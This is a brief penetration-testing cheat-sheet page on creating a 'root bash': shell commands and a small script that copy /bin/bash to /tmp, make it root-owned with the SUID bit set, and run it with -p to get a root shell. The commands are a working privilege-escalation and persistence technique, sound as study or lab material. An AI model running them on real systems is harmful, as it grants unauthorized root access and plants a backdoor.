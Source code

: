 # Root Bash

<div class="row row-cols-lg-2"><div>

A root bash is a (bash) shell that was executed as root. For instance, using an attack vector such as a SUID script, we may run:

```ps
$ cp /bin/bash /tmp/rootbash
$ chown root /tmp/rootbash
$ chmod +s /tmp/rootbash
```

If you are successful, you can use `-p` (and `-i`) to run it:

```ps
$ /tmp/rootbash -p
root@xxx$
```

📚 Replace `root` with another user according to the attack vector.
</div><div>

**Root Bash** (script)

```shell!
$ cat /tmp/root.sh
cp /bin/bash /tmp/rootbash
chown root /tmp/rootbash
chmod +s /tmp/rootbash
exit 0
$ chmod +x /tmp/root.sh
```
</div></div>
